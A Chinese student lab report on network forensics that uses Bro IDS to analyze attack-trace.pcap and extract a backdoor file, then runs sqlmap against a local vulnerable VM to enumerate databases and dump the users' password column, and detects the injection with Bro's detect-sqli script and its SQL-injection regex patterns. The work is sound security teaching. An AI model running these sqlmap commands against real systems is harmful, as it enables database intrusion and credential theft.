# Bro 完成取证分析实验报告
## 实验环境
- kali:```kali-linux-2018.3-amd64.iso``` 网络设置：NatNetwork
- Debian SQL:```SQLfrom_sqli_to_shell_i386.iso``` 网络设置：NatNetwork
## 实验内容
- 完成课本上的利用Bro对```attack-trace.pcap```数据包的分析
- 完成上次SQL注入实验未完成的使用sqlmap进行注入，并用Bro对注入进行检测

## 实验步骤

### 安装bro
- 按照课本上的步骤使用如下指令进行安装
    ```
    apt-get install bro bro-aux
    ```
- 查看实验环境基本信息
    ```
    lsb_release -a
    uname -a
    bro -v
    ```
    
### 使用bro完成对```attack-trace.pcap```数据包分析
- #### 编辑bro配置文件
    - 编辑```/etc/bro/site/local.bro```
    - 在```/etc/bro/site/```目录下创建```mytuning.bro```；Bro事件引擎会丢弃没有有效校验和的包，此文件中的内容是为了避免此行为
    
    
- #### 使用bro自动化分析pcap文件
    ```
    bro -r attack-trace.pcap /etc/bro/site/local.bro
    ```
    
    - 查看当前目录
        
    - 将```extract_files```目录下的文件```extract-1240198114.648099-FTP_DATA-FHUsSu3rWdP07eRE4l```上传至[virustotal](https://virustotal.com/),发现此文件是一个后门程序
        
    - 通过阅读```/usr/share/bro/base/files/extract/main.bro```源码，找到提取文件的命名规则
        ```
        function on_add(f: fa_file, args: Files::AnalyzerArgs)
        {
        if ( ! args?$extract_filename )
            args$extract_filename = cat("extract-", f$last_active, "-", f$source,
                                        "-", f$id);

        f$info$extracted = args$extract_filename;
        args$extract_filename = build_path_compressed(prefix, args$extract_filename);
        f$info$extracted_cutoff = F;
        mkdir(prefix);
        }
        ```
        **这样可以得知，文件名的最后一个-右侧的字符串```FHUsSu3rWdP07eRE4l```是```files.log```中文件的唯一标识**
    - 查看```files.log```，发现该文件提取自网络会话标号为```CgoPom1d70ZX7as9zl```的FTP会话
    - 查看```conn.log```可以发现该文件来自IPv4地址为：```98.114.205.102```的主机
        
        
### 使用sqlmap完成SQL注入并用bro检测
#### sqlmap进行注入
- 查找kali自带的sqlmap
    ```find / -name sqlmap```
    
- 使用sqlmap查找注入点
    ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1"```
    
- ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1" --dbs```获取数据库
    
- ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1" --table -D "photoblog"```
    
- ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1" --columns -T "users"-D "photoblog"```
    
- ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1" --dump -C "password" -T "users" -D "photoblog"```
    


#### bro对注入进行检测
使用bro对注入进行检测主要参考bro官网的[policy/protocols/http/detect-sqli.bro](https://www.bro.org/sphinx/scripts/policy/protocols/http/detect-sqli.bro.html)

用于检测的脚本文件也是直接从官网上下载的
```
##! SQL injection attack detection in HTTP.

@load base/frameworks/notice
@load base/frameworks/sumstats
@load base/protocols/http

module HTTP;

export {
	redef enum Notice::Type += {
		## Indicates that a host performing SQL injection attacks was
		## detected.
		SQL_Injection_Attacker,
		## Indicates that a host was seen to have SQL injection attacks
		## against it.  This is tracked by IP address as opposed to
		## hostname.
		SQL_Injection_Victim,
	};

	redef enum Tags += {
		## Indicator of a URI based SQL injection attack.
		URI_SQLI,
		## Indicator of client body based SQL injection attack.  This is
		## typically the body content of a POST request. Not implemented
		## yet.
		POST_SQLI,
		## Indicator of a cookie based SQL injection attack. Not
		## implemented yet.
		COOKIE_SQLI,
	};

	## Defines the threshold that determines if an SQL injection attack
	## is ongoing based on the number of requests that appear to be SQL
	## injection attacks.
	const sqli_requests_threshold: double = 50.0 &redef;

	## Interval at which to watch for the
	## :bro:id:`HTTP::sqli_requests_threshold` variable to be crossed.
	## At the end of each interval the counter is reset.
	const sqli_requests_interval = 5min &redef;

	## Collecting samples will add extra data to notice emails
	## by collecting some sample SQL injection url paths.  Disable
	## sample collection by setting this value to 0.
	const collect_SQLi_samples = 5 &redef;

	## Regular expression is used to match URI based SQL injections.
	const match_sql_injection_uri =
		  /[\?&][^[:blank:]\x00-\x37\|]+?=[\-[:alnum:]%]+([[:blank:]\x00-\x37]|\/\*.*?\*\/)*['"]?([[:blank:]\x00-\x37]|\/\*.*?\*\/|\)?;)+.*?([hH][aA][vV][iI][nN][gG]|[uU][nN][iI][oO][nN]|[eE][xX][eE][cC]|[sS][eE][lL][eE][cC][tT]|[dD][eE][lL][eE][tT][eE]|[dD][rR][oO][pP]|[dD][eE][cC][lL][aA][rR][eE]|[cC][rR][eE][aA][tT][eE]|[iI][nN][sS][eE][rR][tT])([[:blank:]\x00-\x37]|\/\*.*?\*\/)+/
		| /[\?&][^[:blank:]\x00-\x37\|]+?=[\-0-9%]+([[:blank:]\x00-\x37]|\/\*.*?\*\/)*['"]?([[:blank:]\x00-\x37]|\/\*.*?\*\/|\)?;)+([xX]?[oO][rR]|[nN]?[aA][nN][dD])([[:blank:]\x00-\x37]|\/\*.*?\*\/)+['"]?(([^a-zA-Z&]+)?=|[eE][xX][iI][sS][tT][sS])/
		| /[\?&][^[:blank:]\x00-\x37]+?=[\-0-9%]*([[:blank:]\x00-\x37]|\/\*.*?\*\/)*['"]([[:blank:]\x00-\x37]|\/\*.*?\*\/)*(-|=|\+|\|\|)([[:blank:]\x00-\x37]|\/\*.*?\*\/)*([0-9]|\(?[cC][oO][nN][vV][eE][rR][tT]|[cC][aA][sS][tT])/
		| /[\?&][^[:blank:]\x00-\x37\|]+?=([[:blank:]\x00-\x37]|\/\*.*?\*\/)*['"]([[:blank:]\x00-\x37]|\/\*.*?\*\/|;)*([xX]?[oO][rR]|[nN]?[aA][nN][dD]|[hH][aA][vV][iI][nN][gG]|[uU][nN][iI][oO][nN]|[eE][xX][eE][cC]|[sS][eE][lL][eE][cC][tT]|[dD][eE][lL][eE][tT][eE]|[dD][rR][oO][pP]|[dD][eE][cC][lL][aA][rR][eE]|[cC][rR][eE][aA][tT][eE]|[rR][eE][gG][eE][xX][pP]|[iI][nN][sS][eE][rR][tT])([[:blank:]\x00-\x37]|\/\*.*?\*\/|[\[(])+[a-zA-Z&]{2,}/
		| /[\?&][^[:blank:]\x00-\x37]+?=[^\.]*?([cC][hH][aA][rR]|[aA][sS][cC][iI][iI]|[sS][uU][bB][sS][tT][rR][iI][nN][gG]|[tT][rR][uU][nN][cC][aA][tT][eE]|[vV][eE][rR][sS][iI][oO][nN]|[lL][eE][nN][gG][tT][hH])\(/
		| /\/\*![[:digit:]]{5}.*?\*\// &redef;

	## A hook that can be used to prevent specific requests from being counted
	## as an injection attempt.  Use a 'break' statement to exit the hook
	## early and ignore the request.
	global HTTP::sqli_policy: hook(c: connection, method: string, unescaped_URI: string);
}

function format_sqli_samples(samples: vector of SumStats::Observation): string
	{
	local ret = "SQL Injection samples\n---------------------";
	for ( i in samples )
		ret += "\n" + samples[i]$str;
	return ret;
	}

event bro_init() &priority=3
	{
	# Add filters to the metrics so that the metrics framework knows how to
	# determine when it looks like an actual attack and how to respond when
	# thresholds are crossed.
	local r1: SumStats::Reducer = [$stream="http.sqli.attacker", $apply=set(SumStats::SUM, SumStats::SAMPLE), $num_samples=collect_SQLi_samples];
	SumStats::create([$name="detect-sqli-attackers",
	                  $epoch=sqli_requests_interval,
	                  $reducers=set(r1),
	                  $threshold_val(key: SumStats::Key, result: SumStats::Result) =
	                  	{
	                  	return result["http.sqli.attacker"]$sum;
	                  	},
	                  $threshold=sqli_requests_threshold,
	                  $threshold_crossed(key: SumStats::Key, result: SumStats::Result) =
	                  	{
	                  	local r = result["http.sqli.attacker"];
	                  	NOTICE([$note=SQL_Injection_Attacker,
	                  	        $msg="An SQL injection attacker was discovered!",
	                  	        $email_body_sections=vector(format_sqli_samples(r$samples)),
	                  	        $src=key$host,
	                  	        $identifier=cat(key$host)]);
	                  	}]);

	local r2: SumStats::Reducer = [$stream="http.sqli.victim", $apply=set(SumStats::SUM, SumStats::SAMPLE), $num_samples=collect_SQLi_samples];
	SumStats::create([$name="detect-sqli-victims",
	                  $epoch=sqli_requests_interval,
	                  $reducers=set(r2),
	                  $threshold_val(key: SumStats::Key, result: SumStats::Result) =
	                  	{
	                  	return result["http.sqli.victim"]$sum;
	                  	},
	                  $threshold=sqli_requests_threshold,
	                  $threshold_crossed(key: SumStats::Key, result: SumStats::Result) =
	                  	{
	                  	local r = result["http.sqli.victim"];
	                  	NOTICE([$note=SQL_Injection_Victim,
	                  	        $msg="An SQL injection victim was discovered!",
	                  	        $email_body_sections=vector(format_sqli_samples(r$samples)),
	                  	        $src=key$host,
	                  	        $identifier=cat(key$host)]);
	                  	}]);
	}

event http_request(c: connection, method: string, original_URI: string,
                   unescaped_URI: string, version: string) &priority=3
	{
	if ( ! hook HTTP::sqli_policy(c, method, unescaped_URI) )
		return;

	if ( match_sql_injection_uri in unescaped_URI )
		{
		add c$http$tags[URI_SQLI];

		SumStats::observe("http.sqli.attacker", [$host=c$id$orig_h], [$str=original_URI]);
		SumStats::observe("http.sqli.victim",   [$host=c$id$resp_h], [$str=original_URI]);
		}
	}
```

- #### 选择```/usr/share/bro/base/protocols/http```作为入口进行一系列配置
    - 在该目录下创建```detect-sqli.bro```，将上述代码拷贝至文件中
    - 使用```bro /usr/share/bro/base/protocols/http -i eth0 detect-sqli.bro```指令进行监听(由上次的实验可知是监听eth0)
    - 执行```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1 --all"```
        
        报错是因为接收的TCP包校验和错误，联想上一个实验，所以也在该目录下添加了```mytuning.bro```,并在```__load__.bro```中添加配置<br>
        
        
    - 再次执行sqlmap指令，指令执行完成后查看``` /usr/share/bro/base/protocols/http```目录
        
## 参考文献
- [ns-计算机取证实验](https://sec.cuc.edu.cn/huangwei/textbook/ns/chap0x12/exp.html)
- [Bro Manual](https://www.bro.org/sphinx/index.html#using-bro)
- [policy/protocols/http/detect-sqli.bro](https://www.bro.org/sphinx/scripts/policy/protocols/http/detect-sqli.bro.html)
- [YouTube - SQL injection is detected by Bro IDS](https://www.youtube.com/watch?v=fxjQqvOAd_U)
- [Sqlmap常用参数及说明](https://kamisec.github.io/2017/07/Sqlmap%E5%B8%B8%E7%94%A8%E5%8F%82%E6%95%B0%E5%8F%8A%E8%AF%B4%E6%98%8E/)

## 实验感受
对bro的理解及用法还是不足，做实验还是以```推理```+```模仿```的方式完成的，还需要继续学习


